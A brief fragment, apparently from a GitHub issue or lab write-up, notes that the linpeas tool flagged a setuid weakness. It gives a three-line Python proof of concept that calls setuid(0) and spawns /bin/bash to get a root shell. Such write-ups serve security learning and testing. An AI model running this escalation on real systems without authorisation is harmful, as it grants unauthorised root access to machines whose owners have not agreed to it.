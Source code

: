 Notice that setuid was identified by linpeas
![image](https://github.com/user-attachments/assets/7c71f3bf-55ab-458c-86e5-480a08529df0)

POC to get priv-escalate

import os
os.setuid(0)
os.system("/bin/bash")
